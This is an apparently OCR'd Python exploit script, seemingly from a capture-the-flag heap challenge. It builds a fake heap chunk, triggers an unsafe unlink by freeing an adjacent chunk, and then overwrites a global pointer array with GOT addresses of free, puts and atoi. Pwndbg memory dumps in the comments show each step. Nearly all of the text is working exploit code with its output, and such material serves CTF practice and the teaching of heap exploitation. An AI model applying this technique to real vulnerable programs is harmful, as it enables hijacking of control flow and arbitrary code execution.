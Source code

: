 ```python
payload += p64(bss_heap + 16 - 0x18) # fd
payload += p64(bss_heap + 16 - 0x10) # bk
payload += p64(0x20) # next chunk's prev_size bypass the check
payload = payload.ljust(0x30,'a')

# overwrite bss_heap[3]'s chunk's prev_size
# make it believe that prev chunk is at bss_heap[2]
payload += p64(0x30)
# make it believe that prev chunk is free
payload += p64(0x90)

read(payload,len(payload),2)
# debug()

# addr                prev                size                 status              fd                bk
# 0xed1000            0x0                 0x1010               Used                None              None
# 0xed2010            0x0                 0x110                Used                None              None
# 0xed2120            0x0                 0x410                Used                None              None
# 0xed2530            0x0                 0x40                 Freed                0x0              0x20
# 0xed2570            0x30                0x90                 Used                None              None
# pwndbg> x/16g 0xed2530
# 0xed2530:   0x0000000000000000  0x0000000000000041
# 0xed2540:   0x0000000000000000  0x0000000000000020
# 0xed2550:   0x0000000000602138  0x0000000000602140
# 0xed2560:   0x0000000000000020  0x6161616161616161
# 0xed2570:   0x0000000000000030  0x0000000000000090 <== set prev_inuse to 0x90(size= 0x90,prev_inuse= 0)
# 0xed2580:   0x0000000000000000  0x0000000000000000
# 0xed2590:   0x0000000000000000  0x0000000000000000
# 0xed25a0:   0x0000000000000000  0x0000000000000000

free(3)
# after unlink
# FD->bk=BK,BK->fd=FD
# here BK point to bss_heap[0],FD point to &bss_heap-8
# finally, &bss_heap +8+8 ++>bss_heap[2](FD->bk=BK),&bss_heap-8 + 8+8 ==>bss_heap[2](BK->fd=FD)
# debug()

# pwndbg> x/16g 0x0000000000602140
# 0x602140:   0x0000000000000000  0x0000000002309020
# 0x602150:   0x0000000000602138  0x0000000000000000 <== bss_heap[2] point to 0x0000000000602138
# 0x602160:   0x0000000000000000  0x0000000000000000
# 0x602170:   0x0000000000000000  0x0000000000000000
# 0x602180:   0x0000000000000000  0x0000000000000000
# 0x602190:   0x0000000000000000  0x0000000000000000
# 0x6021a0:   0x0000000000000000  0x0000000000000000
# 0x6021b0:   0x0000000000000000  0x0000000000000000

 # overwrite bss_heap[0] = free@got, bss_heap[1]=puts@got, bss_heap[2]=atoi@got
payload = "A"*8 + flat([elf.got['free'], elf.got['puts'], elf.got['atoi']])
read(payload,len(payload),2)
# debug()

# pwndbg> x/16g 0x602138
# 0x602138:   0x4141414141414141  0x0000000000602018 <== bss_heap[0] was changed and point to free@got
```